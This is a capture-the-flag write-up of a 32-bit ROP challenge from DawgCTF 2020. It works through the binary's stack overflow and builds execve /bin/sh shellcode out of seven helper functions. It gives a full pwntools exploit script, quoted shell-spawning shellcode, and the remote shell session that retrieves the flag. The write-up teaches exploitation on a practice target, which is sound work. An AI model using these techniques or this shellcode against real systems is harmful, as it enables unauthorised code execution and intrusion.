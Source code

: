 # DawgCTF 2020

## Where we roppin boys?

> 350
>
> Forknife is still a thing right?
>
> `nc ctf.umbccd.io 4100`
> 
>Author: trashcanna
>
> [rop](rop)

Tags: _pwn_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra

There are three primary functions of interest: `welcome`, `tryme`, and `win`.

Main starts with `welcome`:

![](welcome.png)

Well, there's an invitation: `shellcode`. `shellcode` is a pointer to a region of memory allocated by `mmap` that is `0x1c` (28) bytes in length and setup for R/W access only (the `3` is `PROT_READ|PROT_WRITE`, IOW `1|2`).  The rest of the `mmap` parameters are less interesting.

![](tryme.png)

There's a buffer overflow vulnerability at line 9.  `fgets` will read 24 (`0x19 - 1`) characters filling up `local_10`, then the pushed `ebx` (standard for x86 32-bit), then the saved base pointer, then finally the return address, with 4 bytes to spare for a 2nd return address, IOW ROP (the binary is called `rop` after all).

![](win.png)

`win` starts off by setting the memory `shellcode` points to, to allow execution (`PROT_EXEC` (4)), then executes it.  Now shellcode is an option (only in this region of memory).

Clearly we want to call `win` with some shellcode.

_But wait!  There's more._

There are 7 other, nearly identical functions that look similar to:

![](tilted_towers.png)

This function sets `iVar4` to the address (`0x8049385`) of the instruction after the call to `__x86.get_pc_thunk.ax()`:

```
08049380 e8 b0 03 00 00       CALL       __x86.get_pc_thunk.ax
08049385 05 7b 2c 00 00       ADD        EAX,0x2c7b
```

`iVar4` (`0x8049385`) + `0x2cb3` is then compared with `0x17` (23), and if greater-than, then the function just returns.

Checking `0x8049385` + `0x2cb3` or `0x804c038` with Ghidra reveals a 4-byte global labeled as `len`:

```
                     len
0804c038                 undefined4 ??
```

If `len` is not greater-than `0x17` (23), then `shellcode[len++] = 0x31`, `shellcode[len++] = 0xc0`, and so on.

There are a total of 7 of these functions that populate the memory pointed to by `shellcode`:

```
dusty_depot:   0x0b 0xcd 0x80 0x31
greasy_grove:  0x6e 0x89 0xe3 0x89
junk_junction: 0x2f 0x2f 0x73 0x68
lonely_lodge:  0xc1 0x89 0xc2 0xb0
loot_lake:     0xc0 0x40 0xcd 0x80
tilted_towers: 0x31 0xc0 0x50 0x68
snobby_shores: 0x68 0x2f 0x62 0x69
```

Calling any of these will just `shellcode[len++] = byte` for each of the four hardcode bytes in the function.

These bytes are shellcode, but what is not obvious is the order in which each function needs to be called to generate useable shellcode, and which ones are required, and if some are called more than once.

> After the 6th call to one of these functions `len` will be 24.

I'm not a shellcode expert to I looked some up and found this: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

This is not an exact match with the options presented, but good enough to muddle through.  You can do this yourself as well.  Based on my obversations I went with the following order:

```
'tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot'
```

`loot_lake` was not required.

`tryme` above only has room for 2, so repeated calls to `tryme` will be required.
 

### Exploit

```
from pwn import *

binary = ELF('rop')

p = process('./rop')
#p = remote('ctf.umbccd.io', 4100)
p.recvuntil('boys?\n')

rops = ['tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot','win']

for i in rops:
	payload  = 8 * b'A'
	payload += p32(binary.symbols['_GLOBAL_OFFSET_TABLE_'])
	payload += 4 * b'B'
	payload += p32(binary.symbols[i])
	payload += p32(binary.symbols['tryme'])
	p.send(payload)

print(p.interactive())
```

When the binary starts you'll end up at the `fgets` in `tryme` waiting for input.

For each function the payload is setup to:

* send 8 `A`s (`local_10`)
* then 4 bytes for the value that will be copied back into `ebx` before the function `leave`s and `ret`urns (this is required for ASLR/PIE enabled binaries, however, for this exploit any value will do, but it's good to be in the habit of setting `ebx` to the address of the GOT before end of function)
* then 4 bytes to overwrite the saved based pointer
* then the function (`rops`) to call overwriting the return address
* then the function (`tryme`) to call overwriting the previous function return address.

It is critical to use `p.send()` vs. `p.sendline()` since `fgets` is setup to only read 24 characters.  `p.sendline()` will send a 25th char (`\n`), that will be picked up on the next call to `tryme` and will spoil your attack.


#### Output

After getting a remote shell, get the flag (while you're there, poke around a bit as well :-):

```
root@bf0bd4081cb8:/pwd/datajerk/dawgctf2020/roppin-boys# ./exploit.py
[*] '/pwd/datajerk/dawgctf2020/roppin-boys/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challuser) gid=1000(challuser) groups=1000(challuser)
$ ls
flag.txt  rop
$ ls -l
total 20
-r--r----- 1 root challuser    22 Mar 26 14:34 flag.txt
-rwxr-xr-x 1 root challuser 15868 Mar 26 14:34 rop
$ cat flag.txt
DawgCTF{f0rtni9ht_xD}
```

#### Flag

```
DawgCTF{f0rtni9ht_xD}
```
